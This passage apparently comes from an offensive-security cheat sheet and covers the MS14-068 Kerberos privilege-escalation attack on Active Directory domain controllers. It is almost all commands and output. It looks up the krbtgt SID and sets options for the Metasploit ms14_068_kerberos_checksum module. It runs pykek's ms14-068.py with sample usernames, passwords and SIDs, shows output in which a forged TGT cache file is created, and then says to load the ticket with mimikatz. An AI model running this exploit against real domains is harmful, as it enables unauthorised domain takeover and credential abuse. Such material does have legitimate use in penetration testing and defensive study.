     ```powershell
    Convert-NameToSid high-sec-corp.localkrbtgt
    S-1-5-21-2941561648-383941485-1389968811-502
    ```
    
- CrackMapExec: `crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid`

```bash
Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

Generate a ticket with `metasploit` or `pykek`

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```powershell
# Alternative download: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
```

Then use `mimikatz` to load the ticket.
